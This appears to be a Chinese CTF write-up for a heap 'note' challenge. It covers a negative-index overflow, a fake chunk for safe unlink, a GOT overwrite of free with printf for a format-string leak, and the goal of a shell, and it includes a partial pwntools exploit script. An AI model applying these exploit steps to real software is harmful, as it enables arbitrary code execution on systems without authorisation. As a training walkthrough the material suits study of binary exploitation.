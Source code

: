 ```
note7_size
```
首先创建8个note，然后edit note3使current_ptr指向note3，之后使用-1溢出note3
```
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')

edit(3,'a')
edit(-9223372036854775808,data);
```

我们使用的溢出数据是用于构造一个fake chunk来实现safe unlink的利用，具体的原理可以看这一章节的讲解。

```
data = ''
data += p64(0) + p64(512+1) #fake chunk header
data += p64(0x6020e0-0x18) + p64(0x6020e0-0x10) #fake fd and bk
data += 'A'*(512-32)
data += p64(512) + p64(512+16)
```

之后释放note4，note3与note4就会合并。note3_ptr会指向note0_ptr的位置。这样我们通过不断的修改note0_ptr的值和edit note0就可以实现任意地址写数据。

但是题目没有提供show功能，所以无法进行任意地址读，也就无法泄漏数据。
这里采用的办法是把free的got表改为printf的值，然后在bbs中一块空白的区域写入"%x"。
这样当free这块区域（这块区域在ptr_array中，所以可以直接传递给free），就可以泄漏出栈中的数据。
通过栈中的libc地址求出system的地址就可以利用任意地址写获得shell

```
free(4)

edit(3,free_got)
edit(0,printf_plt)

edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
```
完成的exp如下

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
def malloc(size,data):
    print conn.recvuntil('>>')
    conn.sendline('1')
    print conn.recvuntil('1024)')
    conn.sendline(str(size))
    print conn.recvuntil('content:')
    conn.sendline(data)
    print conn.recvuntil('\n')
def edit(id,data):
    print conn.recvuntil('>>')
    conn.sendline('3')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('ent:')
    conn.sendline(data)
    print conn.recvuntil('success')
def free(id):
```